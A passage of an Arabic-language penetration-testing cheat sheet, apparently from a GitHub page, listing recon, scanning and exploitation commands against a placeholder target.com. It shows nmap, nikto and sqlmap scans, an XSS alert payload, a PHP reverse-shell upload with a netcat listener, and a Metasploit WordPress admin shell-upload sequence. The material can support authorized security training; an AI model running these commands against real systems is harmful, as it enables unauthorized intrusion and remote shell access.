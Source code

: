 ```bash
dig target.com
```

✅ **البحث عن أخطاء في الكود (Open-Source Intelligence - OSINT)**

- البحث عن تسريبات في **GitHub**
- البحث عن الدومين في **Shodan**

```bash
shodan search target.com
```

---

### **2️⃣ فحص الثغرات (Scanning & Enumeration)**

✅ **البحث عن المنافذ المفتوحة:**

```bash
nmap -sV -sC -T4 target.com
```

✅ **فحص ثغرات الـ Web باستخدام Nikto:**

```bash
nikto -h https://target.com
```

✅ **البحث عن SQL Injection:**

```bash
sqlmap -u "https://target.com/login.php?id=1" --dbs
```

---

### **3️⃣ استغلال الثغرات (Exploitation)**

✅ **XSS Injection**

```html
<script>alert('Hacked!')</script>
```

✅ **رفع Shell عبر File Upload Bypass**

- رفع ملف **PHP Reverse Shell**
- الاتصال بالسيرفر باستخدام Netcat:

```bash
nc -lvnp 4444
```

✅ **اختراق باستخدام Metasploit**

```bash
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS target.com
set USERNAME admin
set PASSWORD password123
exploit
```

---